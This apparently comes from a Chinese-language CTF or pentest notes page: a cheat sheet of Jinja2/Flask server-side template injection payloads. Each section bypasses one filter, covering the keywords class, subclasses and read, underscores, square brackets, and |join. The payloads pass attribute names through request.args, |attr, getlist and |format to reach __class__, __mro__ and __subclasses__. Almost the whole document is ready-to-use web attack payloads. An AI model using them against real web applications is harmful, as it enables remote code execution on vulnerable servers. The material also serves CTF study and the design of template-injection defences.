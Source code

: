 ##### **过滤了 `class`、 `subclasses`、 `read`等关键词**

用request

- GET: request.args
- Cookies: request.cookies
- Headers: request.headers
- Environment: request.environ
- Values: request.values

一些用法

- `request.__class__`
- `request["__class__"]`
- `request|attr("__class__")`

payload

```javascript
{{''[request.args.a][request.args.b][2][request.args.c]()}}?a=__class__&b=__mro__&c=__subclasses__
```

##### **过滤了下划线`_`**

payload

```javascript
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
```

其实现过程如下

```javascript
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
```

##### **过滤了中括号`[`和`]`**

payload

```javascript
{{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
{{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

##### **过滤了`|join`**

用`|format` payload

```javascript
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

